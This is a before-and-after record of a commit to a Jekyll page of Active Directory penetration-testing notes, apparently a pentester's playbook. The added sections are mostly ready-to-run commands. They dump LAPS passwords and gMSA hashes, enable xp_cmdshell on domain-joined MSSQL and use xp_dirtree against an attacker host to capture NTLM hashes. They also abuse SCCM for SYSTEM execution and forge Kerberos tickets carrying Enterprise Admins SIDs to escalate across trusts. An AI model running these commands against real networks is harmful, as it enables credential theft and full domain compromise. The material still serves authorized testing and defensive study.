

Before and after one commit to v0idravl/hakiki, a Jekyll site: the page built from active_directory/ad_main.md, in a window 1280 px wide and 1400 px high, scrolled down 8426 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; before the commit the page ends 9056 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
ad: add LAPS/gMSA, AD-joined MSSQL pivot, SCCM/MECM, forest/trust escalation
Managed-credential reads (LAPS local-admin, gMSA hash; dMSA BadSuccessor note),
AD-joined MSSQL lateral pivot (xp_cmdshell / xp_dirtree coercion / linked-server
hop), SCCM/MECM SYSTEM-context abuse, and forest/trust escalation (intra-forest
ExtraSids, inter-forest trust-key forge). Quick-wins checklist updated.

````diff
--- a/active_directory/ad_main.md
+++ b/active_directory/ad_main.md
@@ -391,6 +391,56 @@ nxc smb $TARGET_IP -u user -p 'password' -x "gpupdate /force"
 
 ---
 
+## Managed Credentials — LAPS / gMSA
+
+```bash
+# LAPS — local admin password, readable if your principal has the right (BloodHound: ReadLAPSPassword)
+nxc ldap $DC -u $USER -p $PASS --laps                 # legacy ms-Mcs-AdmPwd + Windows LAPS
+nxc smb  $DC -u $USER -p $PASS --laps                 # then use as local admin (PtH / SMB exec)
+
+# gMSA — managed service account password → NT hash (BloodHound: ReadGMSAPassword)
+nxc ldap $DC -u $USER -p $PASS --gmsa                 # or gMSADumper.py -u $USER -p $PASS -d $DOMAIN
+# Server 2025: dMSA "BadSuccessor" escalation — watch for delegated MSAs you can write
+```
+
+> Both are quiet LDAP reads (no cracking, no lockout). A LAPS read = local admin on that host; a gMSA
+> read = the service account's hash, often privileged and reused across hosts.
+
+## AD-Joined MSSQL — Lateral Pivot
+
+```bash
+nxc mssql $HOST -u $USER -p $PASS -x "whoami"          # -H for hash; --local-auth for SQL logins
+impacket-mssqlclient $DOMAIN/$USER:$PASS@$HOST -windows-auth
+# in mssqlclient:
+enable_xp_cmdshell ;  xp_cmdshell whoami               # exec as the SQL service account
+exec master..xp_dirtree '\\$LHOST\x'                   # coerce SQL svc auth → Responder / ntlmrelayx
+enum_links ;  use_link [LINKED]                         # hop across linked-server trust to other instances
+```
+
+> SQL service accounts often hold SeImpersonate → SYSTEM (Potato). xp_dirtree NTLM capture is quieter
+> than enabling xp_cmdshell. Disable xp_cmdshell when done.
+
+## SCCM / MECM (high-value — runs as SYSTEM)
+
+```bash
+sccmhunter find -u $USER -p $PASS -d $DOMAIN -dc-ip $DC      # site server, MP, DP, roles
+sccmhunter show -u $USER -p $PASS -d $DOMAIN -dc-ip $DC
+# NAA / client-push creds: recover via relay (ntlmrelayx) or a PXE boot-media leak
+# With the right role: scope a benign app/script deployment to a test collection → SYSTEM exec, then REVERT
+```
+
+## Forest / Trust Escalation
+
+```bash
+nxc ldap $DC -u $USER -p $PASS -M enum_trusts          # enumerate trusts (or ldapdomaindump / BloodHound)
+# Intra-forest child→parent (have child krbtgt from DCSync): forge a TGT with the Enterprise Admins SID
+impacket-ticketer -nthash $KRBTGT -domain-sid $CHILD_SID -extra-sid $EA_SID \
+  -domain child.corp.local Administrator               # SID filtering is NOT enforced within a forest
+# Inter-forest: dump the trust key (secretsdump the trust account), forge an inter-realm TGT
+```
+
+---
+
 ## Quick Wins Checklist
 
 - [ ] Anonymous LDAP / null SMB → users, descriptions with passwords
@@ -401,3 +451,7 @@ nxc smb $TARGET_IP -u user -p 'password' -x "gpupdate /force"
 - [ ] SMB relay (no signing) → SAM dump or shell
 - [ ] Local admin reuse → `nxc smb subnet/24` → lateral movement
 - [ ] BloodHound → shortest path from owned user to DA
+- [ ] LAPS / gMSA read rights → local admin / service-account hash (no crack)
+- [ ] AD-joined MSSQL → xp_cmdshell or linked-server hop
+- [ ] SCCM site present → NAA creds / SYSTEM deployment
+- [ ] Forest trust → child krbtgt + Enterprise Admins SID
````
